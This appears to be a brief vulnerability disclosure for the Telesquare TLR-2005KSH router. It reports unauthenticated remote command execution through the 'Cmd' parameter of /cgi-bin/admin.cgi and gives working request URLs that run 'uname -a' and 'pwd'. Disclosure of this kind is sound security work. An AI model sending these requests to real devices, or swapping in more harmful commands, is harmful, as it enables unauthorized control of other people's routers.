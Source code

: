 # Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![](https://github.com/kklzzcun/route/tree/main/TLR-2005KSH/assets/1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.


